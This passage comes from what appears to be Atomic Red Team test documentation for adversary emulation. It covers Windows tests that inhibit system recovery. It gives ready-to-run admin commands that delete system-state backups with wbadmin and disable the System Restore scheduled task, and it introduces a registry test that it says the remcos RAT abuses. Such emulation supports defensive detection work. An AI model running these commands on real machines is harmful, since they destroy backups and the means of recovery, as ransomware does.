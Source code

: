 **auto_generated_guid:** 584331dd-75bc-4c02-9e0b-17f5fd81c748






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wbadmin delete systemstatebackup -keepVersions:0
```






<br/>
<br/>

## Atomic Test #8 - Windows - Disable the SR scheduled task
Use schtasks.exe to disable the System Restore (SR) scheduled task

**Supported Platforms:** Windows


**auto_generated_guid:** 1c68c68d-83a4-4981-974e-8993055fa034






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
schtasks.exe /Change /TN "\Microsoft\Windows\SystemRestore\SR" /disable
```

#### Cleanup Commands:
```cmd
schtasks.exe /Change /TN "\Microsoft\Windows\SystemRestore\SR" /enable >nul 2>&1
```





<br/>
<br/>

## Atomic Test #9 - Disable System Restore Through Registry
Modify the registry of the currently logged in user using reg.exe via cmd console to disable system restore on the computer. 
See how remcos RAT abuses this technique- https://www.virustotal.com/gui/file/2d7855bf6470aa323edf2949b54ce2a04d9e38770f1322c3d0420c2303178d91/details

**Supported Platforms:** Windows

